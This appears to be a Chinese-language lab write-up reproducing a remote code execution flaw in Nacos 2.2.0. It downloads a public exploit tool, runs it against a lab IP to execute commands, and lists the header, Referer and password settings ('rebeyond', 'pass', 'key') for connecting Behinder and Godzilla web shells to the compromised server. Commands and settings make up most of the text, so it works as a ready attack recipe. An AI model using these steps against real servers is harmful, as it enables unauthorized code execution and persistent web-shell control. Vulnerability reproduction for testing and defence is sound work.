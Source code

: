 #### 环境搭建

https://github.com/alibaba/nacos/releases/download/2.2.0/nacos-server-2.2.0.tar.gz

```python
./startup.sh -m standalone
```

#### 利用工具

github：https://github.com/c0olw/NacosRce

下载链接：https://github.com/c0olw/NacosRce/releases/download/v0.5/NacosRce_jar.zip

```python
cd /root/tools/nacos
wget https://github.com/c0olw/NacosRce/releases/download/v0.5/NacosRce_jar.zip
unzip NacosRce_jar.zip
cd NacosRce_jar
java -jar NacosRce.jar http://192.168.70.14:8848/nacos/ 7848 "whoami"
```

#### 漏洞复现

```python
cd /root/tools/nacos/NacosRce_jar
java -jar NacosRce.jar http://192.168.70.14:8848/nacos/ 7848 "whoami"
```

![image-20240927094558896](https://image.201068.xyz/assets/37.微服务/image-20240927094558896.png)

#### 冰蝎连接

1. 需要设置请求头 `x-client-data:rebeyond`
2. 设置`Referer:https://www.google.com/`
3. 路径随意
4. 密码`rebeyond`

```python
http://192.168.70.14:8848/nacos/
rebeyond

x-client-data:rebeyond
Referer:https://www.google.com/
```

![image-20240927100017875](https://image.201068.xyz/assets/37.微服务/image-20240927100017875.png)

![image-20240927100037599](https://image.201068.xyz/assets/37.微服务/image-20240927100037599.png)

![image-20240927100056655](https://image.201068.xyz/assets/37.微服务/image-20240927100056655.png)

#### 哥斯拉连接

1. 需要设置请求头 `x-client-data:godzilla`
2. 设置`Referer:https://www.google.com/`
3. 路径随意
4. 密码是`pass` 和 `key`
